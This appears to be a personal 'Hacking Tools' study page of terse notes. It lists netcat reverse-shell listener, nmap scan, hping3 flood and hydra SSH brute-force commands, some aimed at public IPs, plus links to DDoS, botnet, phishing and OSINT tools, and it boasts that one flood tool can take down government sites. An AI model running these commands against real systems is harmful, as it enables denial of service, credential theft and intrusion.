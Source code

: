 ```yaml
---
slug: Linux Fundamentals
id: hacking-tools
title: Hacking Tools
authors: [vnk]
tags: [Linux, OS]
custom_edit_url: null
---
```


### Reverse Shell
	- Netcat
		- Command in linux - nc
		- nc -lnvp 87 -s 49.37.145.46
			l: Listen
			n: ip addresses only
			v: verbose
			p: port

	- Github link - PayloadsAllTheThings - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

****************************************************************************

### nMAP - Network Mapper
1) To check all the host up and running
```
$ nmap -sP 10.7.1.0/24
```
2) command - nmap -sT -p 80,443 10.7.1.0/24 - to check the host running port 80, 443 typically websites will be running on that port
	- Stealthy mode: nmap -sS -p 80,443 10.7.1.0/24
3) sudo nmap -O 10.7.1.226
	- ping
	- what ports are up
	- whats the OS and more
4) sudo nmap --script vuln 10.7.1.226

****************************************************************************

### DDos Attack
	1) Low Orbit Ion Cannon
	2) Ping ICMP flood
		- sudo hping3 -1 --flood 10.7.1.50
	3) SYN Flood Attack
		- Any TCP Connection has 3 way handshake
			  i) SYN - CLIENT
			 ii) SYN ACK - SERVER
			iii) ACK - CLIENT
		- sudo hping3 -d 200 -p 80 -S --flood 10.7.1.50

### iDDos
	1) Saphyra - iDDos Priv8 Tool

		The iDDos Protocol is the most massive type of attack
		This tool can tangodown nasa and more govt websites

		This is a HTTP Flood attack (Will send ton of HTTP Get requests)
		LINK - https://github.com/laorynas/Saphyra
		command - python saphyra.py http://10.7.1.50

### BOTNET
BYOB botnet framework
- https://byob.dev/
- https://github.com/malwaredllc/byob
*****************************************************************************

### Password Hacking
1) hydra
```diff
$ sudo hydra -L usernames.txt
$ sudo hydra -l "dwilight.schrute" - P wordlist.txt 45.79.49.74 ssh
```

2) hashcat
- This is to covert the plain pwd to hash and then match with the hash pwd saved on the system

*****************************************************************************
### DARK WEB
1) Dashlane
2) Install tor on vm
```
$ sudo apt install tor
$ nano /etc/tor/torrc
		- uncomment hidden services directory and ip address
		- sudo service tor status/start/stop
$ cat /var/lib/tor/hidden_service/hostname (is where you will get the address)
```
*******************************************************************************
### Phishing
1) blackeye
 - https://github.com/htr-tech/nexphisher  
2) Social engineering tool kit - SET on kali linux  
3) DNS poisoning - Always the host files is checked before hitting the DNS server
*******************************************************************************

### Instagram Hacking
1) datalux/Osintgram
	- https://github.com/Datalux/Osintgram
*******************************************************************************

### Twitter Hacking 
	1) Twint - Twitter Intelligence
		- https://github.com/twintproject/twint
********************************************************************************

Find Social media accounts with SHERLOCK
	1) https://github.com/sherlock-project/sherlock
********************************************************************************

Proxy Chains
	1) command - locate proxychains
		- /etc/proxychains.conf
********************************************************************************

sharkjack-payloads
	- https://github.com/hak5/sharkjack-payloads